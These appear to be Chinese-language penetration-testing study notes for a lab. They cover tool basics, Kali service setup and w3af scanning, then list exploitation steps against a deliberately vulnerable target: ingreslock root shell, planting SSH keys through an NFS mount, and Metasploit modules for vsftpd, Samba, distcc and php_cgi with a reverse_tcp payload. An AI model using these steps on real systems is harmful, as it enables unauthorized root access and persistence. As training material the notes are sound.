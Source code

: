 # Question
Apache 默认端口号80   
XProbe2通过 模糊签名猜测，可能性猜测 同时多匹配和签名数据库来识别操作系统   
W3af框架有漏洞挖掘（discovery）、漏洞分析（audit）和漏洞攻击（attack）三种功能   
burpsuite默认参数127.0.0.1 8080   
burp spider主要是抓取目标网站  (抓包send to spider)   
burp Intruder主要功能是 自动实施各种定制攻击
Sqlmap的注入技术基本全部覆盖
在 /etc/passwd中，/bin/bash代表账户可登录
nmap中 -sU扫UDP -sS SYN扫描 -sT tcp扫描，取首字母，以此类推
mysql默认端口 3306


# 配置网卡信息 #
```
配置文件 nano /etc/network/interfaces

iface eth0 inet static           //配置eth0使用默认的静态地址
address 172.30.1.160        //设置eth0的IP地址
netmask 255.255.0.0        //配置eth0的子网掩码
```
采用静态IP地址的方式，还需要手动设置DNS配置文件，在终端中输入命令
```
nano /etc/resolv.conf
```
输入DNS地址，上述都设置完毕后，重启一下系统
# SSH and Apache #
## 配置SSH ##
```
nano /etc/ssh/ssd_config
```
去掉注释
```
#passwordAuthentication yes
```
开启服务
```
service ssh start
/etc/init.d/ssh start
```
## 配置Apache ##
配置文件
```
nano /etc/apache2/ports.conf 修改默认端口号
```
开启服务
```
service apache2 start
/etc/init.d/apache2 start
```
# 渗透测试过程 #
- 第一步：目标范围划定
- 第二步：信息搜集
- 第三步：目标发现
- 第四歩：目标枚举
- 第五步：漏洞映射
- 第六步：社会工程学
- 第七步：漏洞利用
- 第八步：提权
- 第九步：持续控制目标
- 第十步：文档和报告

# W3af_consle #
|方式|作用|
## 基本操作 ##
|-|-|
|view |查看参数|
|set| 改变参数值|
|back |返回上一级|
|help |查看帮助|
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089536147240401.jpg)
## 探测网站目录结构 ##
2.1	在终端中输入命令“w3af_console”，启动w3af。如图7所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089540666961901.png)

2.2	启动插件。如图8所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089542296669401.png)


2.3	启用find_backdoors、phpinfo和web_spider这三个插件。如图9所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089545129434501.png)


2.4	列出所有用于漏洞的插件。如图10所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089546880790701.png)


2.5	启用blind_sqli、file_upload、os_commanding、sqli和xss这五个插件。如图11所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089552047428201.png)

2.6	设置输出插件。如图12所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089553599742601.png)


2.7	设置输出信息的存储文件。如图13所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089554994280701.jpg)

2.8	查看存储设置参数。如图14所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089556694288901.png)

2.9	设置目标地址参数。如图15所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089557765750301.png)

2.10	开始攻击。如图16所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089560841997901.png)
# 后门利用 #
## Ingreslock后门 ##
**Port:**  1524
```
telnet ip 1524   直接获取root权限
```
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```
## Metasploit溢出vsftp特权提升漏洞 ##
**Port:**  21   
**Payload:** `use exploit/unix/ftp/vsftpd_234_backdoor`
## Metasploit溢出UnrealIRCd后门漏洞 ##
**Port:** 6667
## Tomcat管理台默认口令漏洞 ##
**Port:** 8180    
**Service:** ApacheTomcat/CoyoteJSP engine1.1   
**Default:** tomcat tomcat
## sysmlink 默认配置目录遍历漏洞 ##
**Port:** 445 139   
**Service:** Samba   
**Payload:** auxiliary/admin/smb/samba_symlink_traversal
```
set SMBSHARE tmp SAM可写文件
smbclient //ip/tmp 
cd rootfs 进入root目录
cat /*
```
## Samba提权漏洞 ##
**Port:** 445 139
```
use exploit/multi/samba/usermap_script
```
## Metasploit利用php_cgi漏洞 ##
**Dir:** cgi-bin   
**Exploit:** exploit/multi/php_cgi_arg_injection   
**Payload:**   
```
set PAYLOAD /php/meterpreter/reverse_tcp
```
## Distcc后门漏洞 ##
**Port:** 3632   
**Exploit:** use exploit/unix/misc/distcc_exec   
